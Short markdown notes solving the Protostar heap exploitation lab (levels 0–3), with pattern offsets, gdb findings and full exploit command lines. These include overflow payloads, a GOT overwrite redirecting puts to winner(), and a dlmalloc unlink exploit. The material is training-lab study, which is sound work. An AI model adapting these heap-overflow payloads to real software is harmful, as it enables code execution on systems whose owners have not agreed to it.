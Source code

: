 # Protostar heap-overflow notes

I've noticed that a lot of well documented writeups are present for protostar and decided to instaad post a cliff-notes version for this and upcoming ones. A bunch of useful [References](#ref)

test [Heap 3](#heap-3)

### Heap \#0
Generated good ol' string using pattern_create for 140
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5A6

gbb shows segfault at 0x41346341 which is 72

attack payload: 

	./heap0 `python -c 'print "A" * 72 + "\x64\x84\x04\x08"'`

use ` not ' . **huge difference!!**

### Heap \#1
Did overflow with pattern_create
exact match at 20
Winner location at 0x08048494

Basically there is a printf funnction after strcpy but kept as puts
overwrite with GoT table address and then and point to winner()

put address is 08049774

	./heap1 `python -c "print 'A' * 20 + '\x74\x97\x04\x08' +' ' + '\x94\x84\x04\x08'"`

overwrite the address of argv[2] with GoT table's jump to puts(). Then second strcpy call will move address of winner() and overwrite the puts address
when printf is called we get winner

### Heap \#2

differene between auth and service is 0x10 or 16 bytes.
if u do serviceXXXXXXXXXXXXXXXXX [which x= 17 bytes] u get overflow and get int auth initialized to a specific value X. Then the check will pass.

Another way is use after free

### Heap \#3
FOLLOW DOUG MALLOC articles
In gdb:  

	r AAA `python -c 'print "B"*32 + "\xfc\xff\xff\xff" + "\xf0"'` CCCCDDDDEEEE
Now we can see that after B we overflow next chunk wiht fc which is basically previous chunk size of -4 and kept f0 which means chunk is in use.

Seg fault when trying to copy edx into eax  

	mov eax+12,edx  
	DDDD <<< EEEEE

0x804b128 - 0xc = 0x804b11c  for puts function address which has been adjusted to compensate for assembly

Final Payload:
    
    ./heap3 `python -c 'print "AAAA" + "\xeb\x06" + "\x90"*6 + "\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "B"*16 + "\x01"*4 + "\xff"*4 + "B"*8 + "\xfc\xff\xff\xff" + "\xf0\xff\xff\xff"'` `python -c 'print "CCCC"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'`

## Ref
- https://www.thc.org/root/docs/exploit_writing/Exploiting%20the%20wilderness.txt
- http://www.mathyvanhoef.com/2013/02/understanding-heap-exploiting-heap.html


